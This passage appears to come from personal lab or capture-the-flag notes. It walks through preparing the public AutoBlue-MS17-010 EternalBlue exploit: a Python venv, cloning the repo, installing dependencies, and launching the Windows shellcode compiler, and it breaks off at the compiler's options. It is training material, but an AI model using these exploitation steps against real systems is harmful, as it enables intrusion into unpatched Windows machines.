 Additionally, it comes with an easy to follow walkthrough on how to set it up.
### 3ndG4me AutoBlue-MS17-010
Since this is a [python](coding/languages/python.md) script, we can go through the walkthrough *and avoid cluttering our machine w/ installs etc* by using python venv. To install python venv, just attempt to use it, and python will tell you what package to install if you don't have it.
#### Python Venv
Python venv is essentially a tiny VM where you can do all of your dev work on python. It creats a virtual environment for needed dependencies etc.. You can destroy it once you're done, allowing you to avoid installing unneeded BS on your machine.

After installing venv, you can set it up in your working directory like this:
```bash
┌──(hakcypuppy㉿kali)-[~/blue]
└─$ python3 -m venv venv 
┌──(hakcypuppy㉿kali)-[~/blue]
└─$ ls 
blue.findings.txt  blue.msfconsole.smb.versioning.txt  blue.txt  eb.py  enum4linux.blue.txt  mysmb.py  __pycache__  venv
┌──(hakcypuppy㉿kali)-[~/blue]
└─$ source venv/bin/activate
┌──(venv)(hakcypuppy㉿kali)-[~/blue]   # <---- now you're in the virtual env.
└─$ 
```
*NOW* we can go through the walkthrough for this exploit code.
#### Clone the repo
```bash
┌──(venv)(hakcypuppy㉿kali)-[~/blue]
└─$ git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
Cloning into 'AutoBlue-MS17-010'...
remote: Enumerating objects: 136, done.
remote: Counting objects: 100% (60/60), done.
remote: Compressing objects: 100% (24/24), done.
remote: Total 136 (delta 46), reused 36 (delta 36), pack-reused 76
Receiving objects: 100% (136/136), 101.12 KiB | 967.00 KiB/s, done.
Resolving deltas: 100% (80/80), done.
```
#### Install dependencies
`cd` into the cloned repo and run the following command (this is why we made a venv):
```bash
pip install -r requirements.txt
Collecting impacket (from -r requirements.txt (line 1))
  Downloading impacket-0.11.0.tar.gz (1.5 MB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 1.5/1.5 MB 8.9 MB/s eta 0:00:00
  Installing build dependencies ... done
  Getting requirements to build wheel ...
```
#### Shellcode
`cd` into `/shellcode` and run `./shell_prep.sh`
```bash
./shell_prep.sh                                                                       
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler
Let's compile them windoos shellcodezzz
Compiling x64 kernel shellcode
```
It will give you a bunch of options, we're gonna do the following:
```bash
Eternal Blue Windows Shellcode Compiler

```